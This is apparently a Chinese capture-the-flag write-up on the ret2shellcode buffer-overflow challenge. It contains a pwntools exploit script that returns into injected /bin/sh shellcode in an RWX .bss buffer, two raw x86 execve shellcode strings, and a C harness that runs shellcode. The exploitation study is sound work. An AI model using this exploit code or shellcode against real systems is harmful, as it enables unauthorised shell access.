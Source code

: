 strncpy()：用于将指定长度的字符串复制到数组中；这里是将通过gets输入的字符串，截取64u长度（十进制的100）输入到buf2中。

查看buf2的位置：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159345.png)

注意到这里的内存地址位于bss区（整体C语言的内存区域划分出门左转见C语言笔记）

bss段：属于静态数据区，用于储存未初始化的全局变量和静态变量。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159347.png)

之前提到，对于需要自己注入shellcode的题目，需要检查可以注入的部分有无权限：在main函数处下断点之后使用vmmap命令检查对应内存地址所在的函数权限。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159348.png)

bss区域内存地址范围为：0x804A040~0x804A080;

注意到0x804A000-0x804B000地址范围内为RWX最高权限，说明可以写入shellcode

计算偏移量：

使用cylic直接爆出112

payload:

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

shellcode = asm(shellcraft.sh())：生成shell机械码

##### Shellcode书写

首先放两个搜到的shellcode：

```
shellcode = "\x31\xc0\x31\xdb\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x51\x52\x55\x89\xe5\x0f\x34\x31\xc0\x31\xdb\xfe\xc0\x51\x52\x55\x89\xe5\x0f\x34"
```

```
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
```

*发现一个比较好用的反汇编方法（把ascii转换为IDA能看懂的汇编语言）

写一个小程序：

```c
#include <stdio.h>

char shellcode[] = "";
int main(){
	(*(void(*)())&shellcode)();
	return 0;
}
```
